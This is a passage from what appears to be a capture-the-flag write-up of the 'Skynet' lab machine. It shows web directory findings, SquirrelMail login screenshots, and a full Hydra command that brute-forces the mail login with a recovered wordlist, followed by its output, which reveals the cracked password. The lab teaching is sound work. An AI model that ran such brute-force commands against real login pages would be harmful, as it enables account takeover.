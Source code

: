 <br>
<p>Logs 2 and 3 are empty.</p>

<pre><code>root@[Attack_Box]/skynet:~# cat log2.txt
cat log3.txt
</code></pre>

<br>
<h3>Visualized web pages</h3>

![image](https://github.com/user-attachments/assets/244bbf1e-2f8b-4729-b5de-5a84d8d53cd1)

<br>

<p>For <code>/admin</code>, <code>/css</code>, <code>/js</code>, <code>/config</code> and <code>ai</code> I received the message <code>Forbidden</code>.  And for <code>/squirrelmail</code> I got the following ...</p>

![image](https://github.com/user-attachments/assets/4b68f403-70c9-4e6b-b112-5780ea525c4f)

<br>

![image](https://github.com/user-attachments/assets/e444bf8d-a1bb-451e-9899-c0ba7c6b2c55)

<br>


<pre><code>root@[Attack_Box]/skynet:~# hydra -l milesdyson -P log1.txt skynet.thm -V http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-11-10 02:38:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://skynet.thm:80//squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "cyborg007haloterminator" - 1 of 31 [child 0] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator22596" - 2 of 31 [child 1] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator219" - 3 of 31 [child 2] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator20" - 4 of 31 [child 3] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator1989" - 5 of 31 [child 4] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator1988" - 6 of 31 [child 5] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator168" - 7 of 31 [child 6] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator16" - 8 of 31 [child 7] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator143" - 9 of 31 [child 8] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator13" - 10 of 31 [child 9] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator123!@#" - 11 of 31 [child 10] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator1056" - 12 of 31 [child 11] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator101" - 13 of 31 [child 12] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator10" - 14 of 31 [child 13] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator02" - 15 of 31 [child 14] (0/0)
[ATTEMPT] target skynet.thm - login "milesdyson" - pass "terminator00" - 16 of 31 [child 15] (0/0)
[80][http-post-form] host: skynet.thm   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-11-10 02:39:05
[1]+  Exit 255                hydra -l milesdyson -P log1.txt skynet.thm -V http-form-post /squirrelmail/src/redirect.php:login_username=milesdyson
</code></pre>
